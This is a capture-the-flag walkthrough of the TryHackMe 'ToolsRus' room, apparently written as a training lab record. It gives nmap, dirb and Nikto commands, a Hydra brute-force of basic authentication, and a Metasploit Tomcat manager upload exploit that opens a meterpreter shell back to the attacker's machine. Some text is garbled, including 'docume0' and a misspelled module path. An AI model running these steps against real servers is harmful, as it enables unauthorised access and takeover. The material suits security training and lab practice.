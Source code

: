 # THM: ToolsRus

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Room       | ToolsRus                         |
| URL        | https://tryhackme.com/room/toolsrus     |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- [Dirbuster](../../tools/dirbuster.md)
- [Hydra](../../tools/hydra.md)
- [Nmap](../../tools/nmap.md)
- [Nikto](../../tools/nikto.md)
- [Metasploit](../../tools/msfconsole.md)

## Description

Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

This room will introduce you to the following tools: 

- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

## Process

This room presents a series of questions that needs to be answered using different tools. Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

## What directory can you find, that begins with a "g"?

First of all, I run a couple of nmap commands to find out what ports are open and what software is listening on those ports. I run the following command:

`nmap -p- -Pn -T5 -v target.thm`

Then I run to following based on what ports were discovered in the previous command:

`nmap -A -Pn -v target.thm -p 22,80,1234,8009`

Port 80 has the http service running on it. It has Apache 2.4.18 running. So now I know what port we need to run `dirb` on. I run the following command to answer the question:

`dirb http://target.thm /usr/share/wordlists/dirb/common.txt`

The output mentions a directory that starts with a "g". Here is the output:

```bash
---- Entering directory: http://target.thm/gxxxxxxxx/ ----
+ http://target.thm/gxxxxxxxx/index.html (CODE:200|SIZE:51)
```

## Whose name can you find from this directory?

I opened up the browser and went to the following url:

`http://target.thm/gxxxxxxxx/`

The rendered page has a name on it. The text on the page reads:

`Hey xxx, did you update that TomCat server?`

## What directory has basic authentication?

Since I am looking for a directory that has basic authentication, I went back to my dirbuster output and noticed which directory returned a 401 error. The output from dirbuster was:

```bash
+ http://target.thm/index.html (CODE:200|SIZE:168)
+ http://target.thm/pxxxxxxxx (CODE:401|SIZE:457)
+ http://target.thm/server-status (CODE:403|SIZE:298)
```

I pulled up the middle result in a browser and sure enough it wanted basic authentication.

## What is bob's password to the protected part of the website?

I have a username, and now I need to try and brute force a password for the user bob. I have documentation on how to [break basic authentication using hydra](../../tools/hydra.md#http-get). I copy that guide and run the following command:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get://target.thm/protected/`

I waited a moment and got the following output:

```bash
[DATA] attacking http-get://target.thm:80/protected/
[80][http-get] host: target.thm   login: bob   password: xxxxxxx
1 of 1 target successfully completed, 1 valid password found
```

Logging in with those credentials, I get a message that this page has move to another port.

## What other port that serves a webs service is open on the machine?

I went back to the output of the 2nd nmap command that I ran above. The output from nmap tells me which port is the one:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cd:d9:c0:87:11:dc:40:53:4e:b9:ce:54:bb:cf:26:52 (RSA)
|   256 e1:18:eb:5d:ae:b8:c3:a1:e5:0b:73:6b:21:dd:18:29 (ECDSA)
|_  256 7e:b2:13:a5:ad:05:32:88:1a:22:e6:27:f1:50:16:b4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: xxxxx xxxxxx/x.x.xx
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

I see that port 1234 is running an http server.

## What is the name and version of the software running on the port from question 5?

The last line of output for port 1234 tells the name and version of the software running on port 1234.

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many docume0?

When I go to the url that it is asking for (http://target.thm:1234/manager/html), it wants me to put in a username and password. I try the combination that I found earlier and I am able to login. You can see the answer to this question on the manager page or you can enter the following command and wait for nikto to finish:

`nikto -h http://target.thm:1234/manager/html -id bob:bubbles`

There are 5 docume0. Here is the list:

- /docs
- /examples
- /host-manager
- /lF7Fhb
- /manager

## What is the server version?

This one was a tricky problem for me. The nmap output for port 1234 says Apache Tomcat/Coyote  JSP engine 1.1. This is not the answer that we are looking for. Instead, I noticed the output on port 80. That version number is what the exercise is looking for. Here is the line from the output that I am talking about:

```bash
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## What version of Apache-Coyote is this service using?

As I just mentioned, the version number is 1.1.

## Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

I run `msfconsole` to bring up Metasploit. I use the search feature to find a vulnerability. Here is the what I search for:

`search tomcat`

In the output I only looked for modules that had an excellent rating and mentioned the manager. That leaves me with 2 options:

`exploit/multi/http/tomcat_mgr_deploy`

and

`exploit/mult/http/tomcate_mgr_upload`

In this case I tried the latter. I took a look at the options that this module needs by running `show options`. I needed to change a few options for I ran the following commands:

```bash
set httppassword xxxxxxx
set httpusername xxx
set rhosts target.thm
set rport 1234
set lhost my_attack_box_ip_address
```

Once I had those options set I ran the `run` command. My prompt changed to `meterpreter > ` to indicate that I was on the machine. From here I ran the `getuid` command to find out who I was running as so I could answer the question.

## What flag is found in the root directory?

I ran the following command to get the flag:

`cat /root/flag.txt`
